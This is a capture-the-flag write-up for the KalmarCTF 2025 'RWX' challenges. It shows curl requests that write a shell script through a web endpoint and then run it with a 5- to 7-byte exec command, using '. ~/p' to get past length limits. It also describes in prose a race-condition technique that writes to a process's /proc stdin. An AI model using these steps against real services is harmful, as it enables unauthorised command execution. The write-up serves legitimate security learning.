 ```yaml
---
staticPath: kalmarctf2025
Title: KalmarCTF 2025
Description: Writeup for KalmarCTF 2025, involving exploting a read, write, execute primitive with a limitation on command length.
Date: 2025-03-10
---
```


## RWX - Bronze

I have read write and execute privileges. The goal is to execute the `would` binary with a specific argument to get it to leak the flag. The issue is that for the execute command, it's just piped into subprocess, I'm limited to 7 bytes

```python
if len(cmd) > 7:
	return 'Command too long', 400
```

```
> curl "http://localhost:6664/write?filename=pwn.sh" -d "/would you be so kind to provide me with a flag"
[Errno 13] Permission denied: 'pwn.sh'
```

Let's try writing into /app

```
> curl "http://localhost:6664/write?filename=/app/pwn.sh" -d "/would you be so kind to provide me with a flag"
[Errno 13] Permission denied: '/app/pwn.sh'**%**
```

/tmp?

```
> curl "http://localhost:6664/write?filename=/tmp/pwn.sh" -d "/would you be so kind to provide me with a flag"
OK
```


```
curl "http://localhost:6664/exec?filename=/tmp/pwn.sh"
```

No response :-( That's not even the right syntax. Oops


```
curl "http://localhost:6664/exec?cmd=/tmp/pwn.sh
Command too long
```

lets rewrite it use a shorter filename
```
curl "http://localhost:6664/write?filename=/tmp/p" -d "/would you be so kind to provide me with a flag"
```

```
curl "http://localhost:6664/exec?cmd=/tmp/p
Command too long
```

The trick is how do I actually call my script? Sh is installed. I then realized I could use `.` to run a shell script while reading about bash builtins. I also realized I could use the `~` alias.

```
curl "http://localhost:6664/exec?cmd=~/p"
```

Expands to /home/user/p which I think is useful because its shorter than /tmp

```
curl "http://localhost:6664/write?filename=~p" -d "/would you be so kind to provide me with a flag"
```

I don't think write expands the `~`



```
curl "http://localhost:6664/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "http://localhost:6664/exec?cmd=.%20~/p"
```

Ok


```
curl "https://f2096b4263b0fecaa6c3cacc3e155bba-46857.inst2.chal-kalmarc.tf/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "https://f2096b4263b0fecaa6c3cacc3e155bba-46857.inst2.chal-kalmarc.tf/exec?cmd=.%20~/p"

kalmar{ok_you_demonstrated_your_rwx_abilities_but_let_us_put_you_to_the_test_for_real_now}
```

## RWX - Silver

Same deal as Bronze but I'm limited to 5 bytes. Thankfully, my solve for bronze works for silver!

```
if len(cmd) > 5:
	return 'Command too long', 400
```

```
curl "https://5a655c9cfffbb91c0dbe580f6d3f37a1-56697.inst2.chal-kalmarc.tf/write?filename=/home/user/p" -d "/would you be so kind to provide me with a flag"
curl "https://5a655c9cfffbb91c0dbe580f6d3f37a1-56697.inst2.chal-kalmarc.tf/exec?cmd=.%20~/p"
OKkalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}
```

Yep

## RWX - Diamond

I didn't solve this problem during the CTF. However, I found the solution pretty interesting. It involved exploiting a race condition in order to execute bash commands. The exec command was limited to 4 bytes. You couldn't use the above solution because the user was created without a home directory. The first request started a sh session with `a|sh` this creates an sh process that lives briefly. The second request writes to `/proc/<pid>/fd/0` which then allows for command execution! Pretty cool and not something I would have thought of.